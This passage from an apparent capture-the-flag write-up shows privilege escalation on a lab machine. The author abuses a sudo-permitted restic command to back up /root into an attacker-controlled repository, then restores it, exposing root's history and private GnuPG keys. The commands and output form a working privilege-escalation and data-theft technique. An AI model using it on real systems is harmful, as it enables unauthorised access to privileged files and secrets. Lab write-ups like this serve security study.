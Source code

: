 With our `www-data` webshell we put the repository password in a file and
backup the whole `/root/` directory.

    $ echo lol > /tmp/l
    $ sudo /usr/bin/restic backup -r rest:http://127.0.0.1:8000/ -p /tmp/l /root/
    scan [/root]
    [0:00] 10 directories, 14 files, 28.066 KiB
    scanned 10 directories, 14 files in 0:00
    [0:00] 100.00%  28.066 KiB / 28.066 KiB  24 / 24 items  0 errors  ETA 0:00

    duration: 0:00
    snapshot 485d9809 saved

Back to our bolt SSH shell we can check the snapshots in our
repository (yes I did some test with the bolt user. That's how I discover that I
was prompted for password).

    bolt@bolt:/tmp/ioio2$ restic -r ./srv/ snapshots
    enter password for repository:
    password is correct
    ID        Date                 Host        Tags        Directory
    ----------------------------------------------------------------------
    91587cbd  2019-12-05 15:20:31  bolt                    /home/bolt
    bf190199  2019-12-05 15:21:59  bolt                    /home/bolt
    c7702698  2019-12-05 15:23:55  bolt                    /home/bolt
    485d9809  2019-12-05 15:25:06  bolt                    /root
    ----------------------------------------------------------------------
    4 snapshots

We restore the last snapshot in a new directory. It generate some errors that we
don't really care about.

    :::text
    bolt@bolt:/tmp/ioio2$ mkdir rest
    bolt@bolt:/tmp/ioio2$ restic -r ./srv/ restore 485d9809 --target  ./rest
    enter password for repository:
    password is correct
    restoring <Snapshot 485d9809 of [/root] at 2019-12-05 15:25:06.665521427 +0000 UTC by root@bolt> to ./rest
    ignoring error for /root/.bash_history: Lchown: lchown /tmp/ioio2/rest/root/.bash_history: operation not permitted
    ignoring error for /root/.bashrc: Lchown: lchown /tmp/ioio2/rest/root/.bashrc: operation not permitted
    ignoring error for /root/.cache/motd.legal-displayed: Lchown: lchown /tmp/ioio2/rest/root/.cache/motd.legal-displayed: operation not permitted
    ignoring error for /root/.cache: Lchown: lchown /tmp/ioio2/rest/root/.cache: operation not permitted
    ignoring error for /root/.config/composer/keys.dev.pub: Lchown: lchown /tmp/ioio2/rest/root/.config/composer/keys.dev.pub: operation not permitted
    ignoring error for /root/.config/composer/keys.tags.pub: Lchown: lchown /tmp/ioio2/rest/root/.config/composer/keys.tags.pub: operation not permitted
    ignoring error for /root/.config/composer: Lchown: lchown /tmp/ioio2/rest/root/.config/composer: operation not permitted
    ignoring error for /root/.config: Lchown: lchown /tmp/ioio2/rest/root/.config: operation not permitted
    ignoring error for /root/.gnupg/private-keys-v1.d: Lchown: lchown /tmp/ioio2/rest/root/.gnupg/private-keys-v1.d: operation not permitted
    ignoring error for /root/.gnupg: Lchown: lchown /tmp/ioio2/rest/root/.gnupg: operation not permitted
    ignoring error for /root/.local/share/nano: Lchown: lchown /tmp/ioio2/rest/root/.local/share/nano: operation not permitted
    ignoring error for /root/.local/share: Lchown: lchown /tmp/ioio2/rest/root/.local/share: operation not permitted
    ignoring error for /root/.local: Lchown: lchown /tmp/ioio2/rest/root/.local: operation not permitted